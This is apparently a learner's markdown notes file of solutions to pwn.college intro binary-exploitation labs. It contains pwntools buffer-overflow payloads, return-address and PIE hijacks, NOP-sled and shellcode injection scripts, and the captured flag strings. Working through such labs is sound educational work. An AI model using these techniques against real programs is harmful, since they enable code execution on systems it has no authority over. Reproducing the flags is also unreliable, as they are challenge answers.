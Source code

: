 ```yaml
---
ai_date: 2025-04-27 05:30:10
ai_summary: "Explored various binary exploitation techniques: variable control, control hijack, PIEs, string lengths, shellcode (NOP sleds, null-free, hijack to mapped memory, hijack to shellcode), and using IDA for analysis."
ai_tags:
  - pwn
  - shellcode
  - exploitation
created: 2025-01-01T04:01
updated: 2025-07-14T09:46
---
```


[pwn.college/intro-to-cybersecurity/binary-exploitation/](https://pwn.college/intro-to-cybersecurity/binary-exploitation/)

Fun intro to pwn!
## Variable Control

```python
p.send(b"A"*(8*7+4)+p32(537906058))
# pwn.college{IbWcCEgwb_3NmxBQOakpaZ8L8mV.dhTNzMDL4MTNzYzW}
```

## Control Hijack

```python
p.send(b"A"*8*7+p64(0x4014c8)) # easy
# pwn.college{sjqEokLrLnlDZW3u8G_W0W7kAGz.01M5IDL4MTNzYzW}
p.send(b"A"*8*(14+1+1+1)+p64(0x401C6F)) # 14 i64 ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{gTV54k_-ulMQYgDzC3Vh_mCftbz.0FN5IDL4MTNzYzW}
```

## Tricky Control Hijack

```python
p.send(b"A"*(121+31)+p64(0x00401d74)) # easy
# pwn.college{oR39AEc9qZaLen24njN6hKpfsaA.0VO5IDL4MTNzYzW}
p.send(b"A"*8*(8+1+1+1+1+1)+p64(0x004015FB)) # 8 i64 ; 1 i16 ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{gkl-HAozRVjCOL58ddWZgrjluSZ.0FMwMDL4MTNzYzW}
```

## PIEs

```python
p.send(b"A"*8*(9+1+1+1+1)+p16(0x037E))
# pwn.college{QD_tEkBqsGxZhFGVZqF4wVArs1c.0VMwMDL4MTNzYzW}
p.send(b"A"*8*(11+1+1+1+1)+p16(0x6D1)) # 11 i64 ; 1 char ; 1 int ; 1 sizet ; 1 base pointer
# pwn.college{kgYa6adJ7d99q5RJ3UtvPka9GeD.0lMwMDL4MTNzYzW}
```

## String Lengths

```python
p.send(b"\x00"*8*(9+1+1+1+1+1+1)+p16(0x1DD7))
# pwn.college{wOakrYJ9rSpwCNDTCo_v8r8lrpY.01MwMDL4MTNzYzW}
p.send(b"\x00"*8*(4+1+1+1+1+1+1+1)+p16(0x1E83)) # 4 i64 ; 1 int ; 1 i16 ; 1 char ; 1 sizet ; 1 int ; 1 void* ; 1 sizet ; 1 base pointer
# pwn.college{cH39TBWBTDBxBC820wjWZC8HT6I.0FNwMDL4MTNzYzW}
```

## Shellcode Basic

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-basic-shellcode")
sc = shellcraft.amd64.linux.cat('/flag')
# sc = shellcraft.execve(path="/bin/cat", argv=["/flag"])
# sc = shellcraft.sh()
sc = asm(sc)
p.send(sc)
p.interactive()
```

For some reason neither `sh` nor `/bin/cat` worked.

## Shellcode NOP Sleds

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-nopsled-shellcode")
sc = pwnlib.shellcraft.amd64.nop()*0x800+shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.interactive()
```

## Shellcode Null free

The payload from basic shellcode works.

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-null-free-shellcode")
sc = shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.interactive()
```

## Shellcode Hijack to Mapped

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-hijack-to-mmap-shellcode-w")
sc = shellcraft.amd64.linux.cat('/flag')
sc = asm(sc)
p.send(sc)
p.sendline()
p.send(b'A'*8*7+p64(0x15870000))
print(p.recvall().decode())
```

For the hard version, I've figured out how to make use of IDA's `rbp` stuff. `rbp` is just the base pointer location, which saves a lot more time.

```python
# __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
p.send(b'A'*(0x20+8)+p64(0x1a317000))
```

## Shellcode Hijack to Shellcode
I tried injecting the shell code before the return address, i.e. make the return address jump back, but it didn't work.

```python
payload = sc.ljust(8*7,asm(pwnlib.shellcraft.amd64.nop())) + p64(0x00007fffffffce00)
```

Instead the shell code is injected after the return address.

```python
from pwn import *
context.clear(arch='amd64')
p = process("/challenge/binary-exploitation-hijack-to-shellcode-w")
sc = shellcraft.amd64.linux.cat('/flag')+pwnlib.shellcraft.amd64.nop()*3
sc = asm(sc)
payload = b'A'*8*7 + p64(0x00007fffffffce38+8) + sc
p.send(payload)
print(p.recvall().decode())
```

For the hard version.

```python
# __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
payload = b'A'*(0x20+8) + p64(0x00007fffffffce38+8) + sc
```

## Conclusion

Wow, this was really helpful.

First time ever using shellcode, never knew it was this fun and easy.

Also learnt how to use IDA better.